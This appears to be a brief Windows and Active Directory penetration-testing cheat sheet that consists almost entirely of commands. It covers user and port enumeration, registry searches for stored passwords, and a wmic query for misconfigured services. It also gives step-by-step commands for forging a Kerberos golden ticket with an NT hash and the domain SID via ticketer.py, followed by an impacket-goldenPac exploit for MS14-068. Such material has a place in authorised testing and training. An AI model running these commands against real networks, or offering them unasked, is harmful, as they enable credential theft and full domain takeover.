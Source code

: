 System browsing:
```powershell
net user
```

```powershell
net user $USER
```

```powershell
netstat -an
netstat -an | findstr $PORT
```
Search for passwords inside the registry
---
```powershell
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Find misconfigured services (default settings)
---
```powershell
cmd /c wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Golden ticket:
---
generate user password hash:

```python
import hashlib
hashlib.new('md4', '$PASSWORD'.encode('utf-16le')).digest().hex()
# save hash for later
```

or use

```url
https://gchq.github.io/CyberChef/#recipe=NT_Hash()
```

```powershell
get-addomain
#extract DomainSID
```

```shell
ticketer.py -nthash $HASH -domainsid $DOMAINSID -domain $DOMAIN -spn AnyName/$DCDOMAIN administrator
```

```shell
KRB5CCNAME=administrator.ccache mssqlclient.py -k administrator@$DCDOMAIN
```

GoldenPAC ms14-068

```bash
impacket-goldenPac -dc-ip $TARGET_IP -target-ip $TARGET_IP '$DOMAIN/$USER:$PASSWORD@$MACHINE.$DOMAIN'
```